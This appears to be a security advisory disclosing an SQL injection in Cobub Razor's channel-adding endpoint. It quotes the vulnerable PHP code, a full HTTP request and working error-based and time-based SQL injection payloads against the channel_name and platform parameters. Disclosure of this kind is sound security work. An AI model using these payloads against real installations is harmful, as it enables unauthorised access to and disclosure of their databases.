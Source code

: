 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.7.2 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  

/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
```
request:
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind
Parameter: channel_name,platform

Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_1.png)  
Use manual injection：  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_2.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_4.png)



